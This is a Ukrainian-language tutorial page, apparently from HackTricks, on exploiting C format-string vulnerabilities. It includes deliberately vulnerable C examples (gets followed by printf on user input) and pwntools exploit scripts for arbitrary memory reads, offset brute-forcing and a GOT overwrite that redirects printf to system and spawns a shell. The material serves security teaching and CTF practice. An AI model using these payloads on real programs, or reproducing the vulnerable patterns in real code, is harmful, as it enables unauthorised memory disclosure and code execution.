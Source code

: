 # Форматні рядки

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо ви зацікавлені в **кар'єрі в хакерстві** та хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}


## Основна інформація

У C **`printf`** - це функція, яка може бути використана для **виведення** деякого рядка. **Перший параметр**, який очікує ця функція, - це **сирий текст з форматерами**. **Наступні параметри** - це **значення**, які потрібно **замінити** на **форматери** з сирого тексту.

Інші вразливі функції - це **`sprintf()`** та **`fprintf()`**.

Вразливість виникає, коли **текст зловмисника використовується як перший аргумент** для цієї функції. Зловмисник зможе створити **спеціальний вхід, зловживаючи** можливостями **форматного рядка printf** для читання та **запису будь-яких даних за будь-якою адресою (читабельною/записуваною)**. Таким чином, він зможе **виконувати довільний код**.

#### Форматери:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Приклади:**

* Вразливий приклад:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Звичайне використання:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* З відсутніми аргументами:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf вразливий:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Доступ до вказівників**

Формат **`%<n>$x`**, де `n` - це число, дозволяє вказати printf вибрати n параметр (з стеку). Тож, якщо ви хочете прочитати 4-й параметр зі стеку, використовуючи printf, ви можете зробити:
```c
printf("%x %x %x %x")
```
і ви б читали з першого до четвертого параметра.

Або ви могли б зробити:
```c
printf("%4$x")
```
і безпосередньо прочитати четвертий.

Зверніть увагу, що атакуючий контролює параметр `printf`, **що в основному означає, що** його введення буде в стеку, коли викликається `printf`, що означає, що він може записувати конкретні адреси пам'яті в стек.

{% hint style="danger" %}
Атакуючий, який контролює цей ввід, зможе **додати довільну адресу в стек і змусити `printf` отримати доступ до них**. У наступному розділі буде пояснено, як використовувати цю поведінку.
{% endhint %}

## **Довільне Читання**

Можливо використовувати форматер **`%n$s`**, щоб змусити **`printf`** отримати **адресу**, що знаходиться в **n позиції**, слідуючи за ним, і **друкувати її так, ніби це рядок** (друкувати до знаходження 0x00). Отже, якщо базова адреса бінарного файлу **`0x8048000`**, і ми знаємо, що введення користувача починається з 4-ї позиції в стеці, можливо надрукувати початок бінарного файлу за допомогою:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Зверніть увагу, що ви не можете поставити адресу 0x8048000 на початку введення, оскільки рядок буде обірвано на 0x00 в кінці цієї адреси.
{% endhint %}

### Знайти зсув

Щоб знайти зсув до вашого введення, ви можете надіслати 4 або 8 байтів (`0x41414141`), за якими слідує **`%1$x`** і **збільшити** значення, поки не отримаєте `A's`.

<details>

<summary>Брутфорс зсуву printf</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Як корисно

Випадкові читання можуть бути корисними для:

* **Вивантаження** **бінарного** файлу з пам'яті
* **Доступу до конкретних частин пам'яті, де зберігається чутлива** **інформація** (як-от канарейки, ключі шифрування або користувацькі паролі, як у цьому [**CTF виклику**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Випадкове записування**

Форматер **`%<num>$n`** **записує** **кількість записаних байтів** за **вказаною адресою** в параметрі \<num> у стеку. Якщо зловмисник може записати стільки символів, скільки захоче, використовуючи printf, він зможе змусити **`%<num>$n`** записати випадкове число за випадковою адресою.

На щастя, щоб записати число 9999, не потрібно додавати 9999 "A" до введення, для цього можна використовувати форматер **`%.<num-write>%<num>$n`**, щоб записати число **`<num-write>`** за **адресою, на яку вказує позиція `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Однак, зверніть увагу, що зазвичай для запису адреси, такої як `0x08049724` (що є ВЕЛИЧЕЗНИМ числом для запису одночасно), **використовується `$hn`** замість `$n`. Це дозволяє **записати лише 2 байти**. Тому ця операція виконується двічі: один раз для найвищих 2B адреси і ще раз для найнижчих.

Отже, ця вразливість дозволяє **записувати що завгодно в будь-яку адресу (произвольний запис).**

У цьому прикладі метою буде **перезаписати** **адресу** **функції** в таблиці **GOT**, яка буде викликана пізніше. Хоча це може зловживати іншими техніками произвольного запису для виконання:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Ми будемо **перезаписувати** **функцію**, яка **отримує** свої **аргументи** від **користувача** і **вказувати** її на **функцію** **`system`**.\
Як згадувалося, для запису адреси зазвичай потрібно 2 кроки: спочатку **записується 2 байти** адреси, а потім інші 2. Для цього використовується **`$hn`**.

* **HOB** називається для 2 вищих байтів адреси
* **LOB** називається для 2 нижчих байтів адреси

Потім, через те, як працює формат рядка, вам потрібно **спочатку записати найменший** з \[HOB, LOB\], а потім інший.

Якщо HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Якщо HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Template

Ви можете знайти **шаблон** для підготовки експлойту для цього типу вразливості в:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Або цей базовий приклад з [**тут**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Форматні рядки до BOF

Можливо зловживати діями запису вразливості форматного рядка, щоб **записувати в адреси стеку** та експлуатувати вразливість типу **переповнення буфера**.

## Інші приклади та посилання

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 біт, без relro, без canary, nx, без pie, базове використання форматних рядків для витоку прапора зі стеку (немає потреби змінювати потік виконання)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 біт, relro, без canary, nx, без pie, форматний рядок для перезапису адреси `fflush` з функцією win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 біт, relro, без canary, nx, без pie, форматний рядок для запису адреси всередині main в `.fini_array` (щоб потік повертався ще раз) і запису адреси до `system` в таблиці GOT, що вказує на `strlen`. Коли потік повертається до main, `strlen` виконується з введенням користувача і вказує на `system`, він виконає передані команди.

<figure><img src="/.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра в хакерстві** і ви хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
